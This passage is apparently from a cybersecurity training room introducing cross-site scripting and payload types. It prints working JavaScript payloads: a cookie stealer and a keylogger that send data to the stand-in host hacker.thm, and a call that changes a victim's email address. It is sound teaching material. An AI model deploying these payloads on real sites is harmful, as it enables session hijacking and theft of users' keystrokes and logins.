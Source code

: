 --- ---

<h4>What is XSS</h4>

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

- What is a payload?

	In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

	The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

	Here are some examples of XSS intentions.

- Proof Of Concept:

	This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

	`<script>alert('XSS');</script>`

- Session Stealing:

	Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

	`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

- Key Logger:

	The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

	`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

- Business Logic:

	This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

	`<script>user.changeEmail('attacker@hacker.thm');</script>`

	Now that the email address for the account has changed, the attacker may perform a reset password attack.

--- ---

<h4>Reflected XSS</h4>
